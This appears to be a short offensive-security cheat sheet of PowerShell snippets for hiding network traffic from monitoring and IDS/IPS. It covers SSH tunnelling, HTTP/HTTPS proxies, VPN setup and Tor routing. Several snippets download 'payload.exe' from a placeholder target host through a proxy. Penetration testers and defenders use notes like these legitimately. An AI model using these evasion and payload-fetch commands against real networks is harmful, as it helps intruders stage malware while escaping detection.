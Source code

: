 # Network Traffic Encryption

#### PowerShell Tunneling (SSH)
Use PowerShell to tunnel network traffic through SSH for encryption, making it harder for network monitoring tools to inspect or block the traffic.

- Create SSH Tunnel for Encrypted Web Traffic:
	```powershell
	Start-Process "C:\path\to\putty.exe" -ArgumentList "-ssh -D 1080 user@<ssh_server>"
	```

#### PowerShell Tunneling (HTTPS Proxy)
Route traffic through an HTTPS proxy to obfuscate content and evade network-based detection.

- Route Web Traffic Through HTTPS Proxy:
	```powershell
	$proxy = New-Object System.Net.WebProxy("http://<proxy_ip>:<proxy_port>", $true)
	$webclient = New-Object System.Net.WebClient
	$webclient.Proxy = $proxy
	$webclient.DownloadFile("https://<target_ip>/payload.exe", "C:\Temp\payload.exe")
	```

#### HTTP Proxy Tunneling
- Set HTTP Proxy for PowerShell WebClient:
```powershell
$proxy = New-Object System.Net.WebProxy('http://<proxy_ip>:<proxy_port>', $true)
$webclient = New-Object System.Net.WebClient
$webclient.Proxy = $proxy
$webclient.DownloadFile('http://<target_ip>/payload.exe', 'C:\Temp\payload.exe')
```
- Tunneling Through a Proxy (HTTPS):
```powershell
$webclient = New-Object System.Net.WebClient
$webclient.Proxy = New-Object System.Net.WebProxy('http://<proxy_ip>:<proxy_port>', $true)
$webclient.DownloadFile("https://<target_ip>/payload.exe", "C:\Temp\payload.exe")
```

#### VPN Tunneling
Establish a VPN tunnel using OpenVPN or other VPN services to encrypt all network traffic, hiding it from IDS/IPS.

- VPN Connection via PowerShell:
	```powershell
	Add-VpnConnection -Name "CorporateVPN" -ServerAddress <vpn_ip> -TunnelType L2tp -AuthenticationMethod PAP -EncryptionLevel Maximum
	```

#### Tor Network (PowerShell)
Route traffic through the Tor network using PowerShell, effectively anonymizing the source and making it difficult to track.

- Torify PowerShell Traffic:
	```powershell
	Start-Process -FilePath "tor.exe" -ArgumentList "-client -f torrc"
	$proxy = New-Object System.Net.WebProxy("127.0.0.1:9050")
	$webclient = New-Object System.Net.WebClient
	$webclient.Proxy = $proxy
	$webclient.DownloadString("http://<target_ip>")
	```
